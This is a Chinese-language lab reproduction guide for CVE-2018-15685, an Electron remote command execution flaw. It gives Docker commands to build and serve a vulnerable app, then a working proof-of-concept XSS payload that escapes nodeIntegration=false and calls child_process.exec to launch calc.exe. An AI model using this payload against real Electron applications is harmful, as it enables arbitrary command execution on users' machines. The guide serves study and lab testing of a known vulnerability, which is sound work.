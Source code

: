 （CVE-2018-15685）Electron WebPreferences 远程命令执行漏洞
==========================================================

一、漏洞简介
------------

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

二、漏洞影响
------------

GitHub Electron 1.7.15版本，1.8.7版本，2.0.7版本，3.0.0-beta.6版本。

三、复现过程
------------

### 编译APP

执行如下命令编译一个包含漏洞的应用：

    docker-compose run -e PLATFORM=win64 --rm electron

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

    docker-compose run --rm -p 8080:80 web

此时，访问`http://www.0-sec.org:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

### 漏洞复现

在本地打开应用：

![](./resource/(CVE-2018-15685)ElectronWebPreferences远程命令执行漏洞/media/rId26.png)

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交\`\`，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

    <img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">

可见，calc.exe已成功弹出：

![](./resource/(CVE-2018-15685)ElectronWebPreferences远程命令执行漏洞/media/rId27.png)

参考链接
--------

> https://vulhub.org/\#/environments/electron/CVE-2018-15685/
